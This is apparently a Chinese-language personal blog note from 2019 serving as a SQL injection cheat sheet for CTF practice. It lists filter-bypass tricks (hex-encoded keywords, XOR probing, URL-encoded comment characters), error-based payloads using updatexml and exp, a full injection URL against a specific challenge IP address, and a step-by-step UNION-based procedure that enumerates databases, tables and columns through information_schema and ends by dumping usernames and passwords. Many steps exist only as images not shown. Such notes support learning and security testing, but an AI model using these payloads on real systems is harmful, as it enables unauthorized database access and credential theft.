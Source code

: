 ```yaml
---
layout: "post"
title: "sql 注入"
date: "2019-04-21 13:58"
---
```


![](https://raw.githubusercontent.com/shanke001/-/master/img/20190421135853.png)

# 1.sql注入寻找
![](https://raw.githubusercontent.com/shanke001/-/master/img/20190421140004.png)

![](https://raw.githubusercontent.com/shanke001/-/master/img/20190421140429.png)

* distinct 去重复查询





# sql注入

## 绕过技巧
### 1. 关键字用16进制 0x73656C656374 ...
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
### 2.异或运算

![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图16560308556869.png)
![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图17150129060957.png)
**正确为0 错误为1**
1  ^ 0 = 1
1  ^ 1 = 0
测试 过滤字符  符号可以用url编码 %23 #

+++++++++++++++++++++++++++++++++++++++++++++++++++++
### 3.基于报错注入

**updataxml**
**注入语句**
**updatexml(1,concat(0x7e,(查询语句),0)**
暴库
 **updatexml(1,concat(0x7e,(database(),0x7e),1);**
 ![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图16720328383368.png)
 ![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图18720115108113142.png)
之后相同
例子
~~~
http://123.206.87.240:9004/Once_More.php?id=id=%27%20and%20updatexml(1,concat(%27~%27,(select%20database()),%27~%27),1)%23
~~~


**exp**

语句 select exp(~(select * from (查询语句)x))
![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图174110299697129.png)



### 4.基于时间的盲注

![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图18750814505679.png)


---

 * **union select group_concat(table_name) from information_schema.tables where table_schema=database()**
简单的把这句话分解
**group_concat()** 实际上是配合 where 后面的内容，在此处就理解为 将相同的**table_schem**a中的**table_name**合并成一个查询结果
**information_schema**数据库是MySQL系统自带的数据库
tables 是 **information_schema**的其中一个表
**table_schema**和**table_name**是 表中的一个字段
database（） 是检测当前数据库的函数

*  **1' union select 1,2,3,4 #**
![](https://raw.githubusercontent.com/shanke001/-/master/img/20190222133800.png)

## 1.判断是否存在注入，注入是字符型还是数字型

## 2.猜解SQL查询语句中的字段数
order by 1 #

## 3.确定显示的字段顺序
输入1′ union select 1,2 #

## 4.获取当前数据库
database() user() version()

* 查询所有数据库
**select group_concat(distinct TABLE_SCHEMA)  from information_schema.tables;**
![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图1878042290110106.png)

**爆数据库**
**1' union select schema_name from information_schema.schemata where '1' ='1**

## 5.获取数据库中的表
* 方法一
**1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #**
* 方法二
**union  select  table_name from information_schema.tables where  table_schema=...**
* 获取外库表
**union select group_concat(distinct schema_name) from information_schema.schemata where schema_name='flag'**

## 6.获取表中的字段名
**1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #**

**1' union  select  flag from  flag where  '1' ='1'**
## 7.下载数据

**1'  union select group_concat(),group_concat(password) from users #**
